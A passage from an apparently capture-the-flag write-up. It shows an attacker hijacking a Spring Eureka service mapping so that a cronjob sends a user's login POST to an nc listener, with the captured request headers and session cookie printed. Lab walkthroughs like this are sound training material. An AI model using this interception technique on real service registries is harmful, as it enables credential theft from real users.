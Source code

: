 ![](images/2025-04-28_13-39_burp_suite_micro_service_mapping_request.png)

We checked if the `mapping` was modified to our needs and waited for the `cronjob` to get executed.

![](images/2025-04-28_09-17_8761_spring_eureka_local_machine.png)

And after a little while the box reached out and provided us the partially `URL encoded password` for `miranda-wise`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.16.39] from (UNKNOWN) [10.129.82.10] 41154
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=MzNkNTExOWYtOGE5Yy00MjdlLTg4M2QtZmFkNmFjZjRmMjQ3
```
